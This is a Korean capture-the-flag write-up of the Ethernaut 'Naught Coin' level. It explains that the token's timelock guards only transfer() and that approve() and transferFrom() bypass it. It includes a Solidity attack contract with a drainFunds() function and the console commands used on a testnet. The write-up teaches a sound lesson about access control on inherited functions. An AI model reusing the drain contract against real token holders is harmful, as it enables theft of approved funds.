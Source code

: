https://teberr.notion.site/Ethernaut-Naught-Coin-6031cfafe77f489b83887c8a5e4c10da

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/ea6159a1-1ddc-427e-975e-221e26e3fc9b/Untitled.png)

> NaughtCoin은 ERC20 규격을 따르는 토큰이고 이미 모든 NaughtCoin을 가지고 있습니다. 하지만 토큰을 전송하려면 락업이 10년으로 설정되어 있어 transfer를 하려면 10년을 기다려야 합니다. 이 토큰을 다른 주소로 보내어 가진 토큰의 개수를 0으로 만들면 성공입니다. 

힌트:
- ERC20 스펙을 참고하세요
- [https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/ERC20.sol](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/ERC20.sol)
> 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import 'openzeppelin-contracts-08/token/ERC20/ERC20.sol';

 contract NaughtCoin is ERC20 {

  // string public constant name = 'NaughtCoin';
  // string public constant symbol = '0x0';
  // uint public constant decimals = 18;
  uint public timeLock = block.timestamp + 10 * 365 days;
  uint256 public INITIAL_SUPPLY;
  address public player;

  constructor(address _player) 
  ERC20('NaughtCoin', '0x0') {
    player = _player;
    INITIAL_SUPPLY = 1000000 * (10**uint256(decimals()));
    // _totalSupply = INITIAL_SUPPLY;
    // _balances[player] = INITIAL_SUPPLY;
    _mint(player, INITIAL_SUPPLY);
    emit Transfer(address(0), player, INITIAL_SUPPLY);
  }
  
  function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
    super.transfer(_to, _value);
  }

  // Prevent the initial owner from transferring tokens until the timelock has passed
  modifier lockTokens() {
    if (msg.sender == player) {
      require(block.timestamp > timeLock);
      _;
    } else {
     _;
    }
  } 
}
```

# 코드 분석 및 공격 설계

```solidity
  constructor(address _player) 
  ERC20('NaughtCoin', '0x0') {
    player = _player;
    INITIAL_SUPPLY = 1000000 * (10**uint256(decimals()));
    // _totalSupply = INITIAL_SUPPLY;
    // _balances[player] = INITIAL_SUPPLY;
    _mint(player, INITIAL_SUPPLY);
    emit Transfer(address(0), player, INITIAL_SUPPLY);
  }
```

Naught Coin의 생성자이다. 총 백만 토큰을 생성하여 내 지갑 주소로 발행해준다(_mint).

```solidity
  modifier lockTokens() {
    if (msg.sender == player) {
      require(block.timestamp > timeLock);
      _;
    } else {
     _;
    }
```

msg.sender가 player 즉 발행 받은 ‘나’인 경우 트랜잭션을 보냈을 때 block.timestamp가 timeLock 보다 커야하는 조건 modifier 이다. timeLock은 player가 토큰을 발행받고 10년 뒤로 설정되어 있다.

```solidity
  function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
    super.transfer(_to, _value);
  }
```

ERC20의 transfer를 오버라이드한 함수로 player가 10년 뒤에만 전송이 가능하도록 설정되어 있다. 

즉 현재 상황을 요약하면 100만개의 Naught 토큰을 가지고있지만 transfer(전송)함수를 이용하려면 10년 뒤에만 가능하므로 전송을 하지 못하는 상황이다. 

이 Naught 코인은 ERC20을 상속받고 있으므로 ERC20에 있는 함수들을 살펴보면 transfer를 제외하고도 전송할 수 있는 함수가 하나 있다.

![transferFrom.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/2aa5a6a6-4359-406b-a143-5dd26f42c682/transferFrom.png)

transferFrom 함수는 sender의 주소로부터 recipient 주소로, amount 만큼 보내는 함수이다. 이 함수를 실행하기 위해서는 먼저 sender에게 approve를 받아야 한다.

![approve.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/e6f39e5c-6a47-4beb-8fd5-2b770ad7d3fa/approve.png)

이 함수를 호출한 caller가 spender에게 자신이 가진 토큰 중 amount 만큼 전송할 권한을 넘겨주는 함수이다. 이 함수를 호출하고 나면 spender는 내가 가진 토큰 중 amount 만큼 마음대로 다른 주소로 옮길 수 있다.

이 transferFrom함수와 approve 함수는 Naught Coin 컨트랙트에서 오버라이딩 하지 않아 아무런 제한 없이 사용이 가능하므로 이 두 함수를 이용하여 player의 토큰을 다른 주소로 옮길 수 있다.

# 공격

공격 컨트랙트를 작성해서 내 메타마스크 지갑의 Naught Coin을 빼내기 위해서는 먼저 approve를 내 공격 컨트랙트로 설정해주어야 한다.

먼저 공격 컨트랙트를 작성해서 deploy하여 주소가 정해져야 하므로 공격컨트랙트에 있어야 하는 함수를 생각하면 다음과 같다.

1. transferFrom(player, address(this), balancceOf(address(player)) → 공격을 위한 함수
2. balanceOf(address(player)) → 공격 이후 플레이어의 지갑에 있는 토큰 개수를 알기 위한 함수
3. balanceOf(address(this)) → 공격 이후에 이 컨트랙트에 있는 토큰의 개수를 알기 위한 함수

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
interface INaughtCoin{
    function transferFrom(address,address,uint256)external returns(bool);
    function balanceOf(address)external returns(uint256);
}

contract attack{
    INaughtCoin coin;
    address target=0x83b26d6A3D3FaBd9F0A5f1d69DCA1CE6cc4eA39a;
    uint256 public thisbalance;
    uint256 public senderbalance;
    constructor(address _coin){
        coin=INaughtCoin(_coin);
    }
    function drainFunds()public{
        coin.transferFrom(target, address(this), coin.balanceOf(target));
    }
    function balancethis()public{
        thisbalance= coin.balanceOf(address(this));
    }
    function balancesender()public{
        senderbalance=coin.balanceOf(target);
    }
}
```

이 컨트랙트가 drainFunds()를 수행하여 player의 주소에서 토큰을 전부 가져오기 위해서는 먼저 player가 approve를 해주어야 한다.

![contract 주소.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/473ae7c4-8f83-4bef-9e45-a42a60da7e43/contract_%EC%A3%BC%EC%86%8C.png)

공격 컨트랙트의 주소는 0x14551e575B69874cD9AE7FF657292A397154724F 이므로 콘솔에서 다음과 같이 수행해준다.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/b4b96fa9-35e7-4402-ad5e-68fd6ed109fd/Untitled.png)

```solidity
await contract.approve('0x14551e575B69874cD9AE7FF657292A397154724F',await contract.balanceOf(player))
⛏️ Sent transaction ⛏ https://sepolia.etherscan.io/tx/0xc3e5996d3563e1f2fb003bdb576eed40b6b69019dda5f8fc36ff598ee63c72bd
⛏️ Mined transaction ⛏ https://sepolia.etherscan.io/tx/0xc3e5996d3563e1f2fb003bdb576eed40b6b69019dda5f8fc36ff598ee63c72bd
{tx: '0xc3e5996d3563e1f2fb003bdb576eed40b6b69019dda5f8fc36ff598ee63c72bd', receipt: {…}, logs: Array(1)}
```

이제 approve를 해주었으므로 공격 컨트랙트는 내 메타마스크에서 토큰을 전부 빼낼 수 있게 된다.

![공격전.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/1eb44ba9-101f-4a9d-804c-20674d7e13c6/%EA%B3%B5%EA%B2%A9%EC%A0%84.png)

공격 전에는 target인 내 메타마스크 주소에 토큰이 존재하고 공격 컨트랙트에는 없음을 볼 수 있다.

drainFunds 를 실행시켜 내 메타마스크 주소에서 공격 컨트랙트로 토큰을 이동시키자.

```solidity
    function drainFunds()public{
        coin.transferFrom(target, address(this), coin.balanceOf(target));
    }
```

![공격후.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/3828f163-701a-4b7b-82a5-6113c9fbe677/%EA%B3%B5%EA%B2%A9%ED%9B%84.png)

공격 후 player의 모든 토큰이 공격 컨트랙트로 넘어온 것을 확인할 수 있다. 문제 조건을 충족했으므로 인스턴스를 제출하면 성공하게 된다.

![성공.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/37c25b4a-b82f-472e-8f1c-2fac7f9dc5cf/%EC%84%B1%EA%B3%B5.png)

# 문제 후기

직접 작성한 코드가 아닌 다른 코드를 import 하여 사용할 때는 코드를 잘 이해하고 가져오는 것이 좋습니다. 예를 들어 import의 import가 있을 수도 있으며 인증 제어 구현할 때 특히 중요합니다. 이 예제에서는 코드에서 transfer에 대한 인증 제어만 구현하였기 때문에 다른 방식으로 같은 기능을 수행하는 다른 함수로 우회할 수 있습니다.
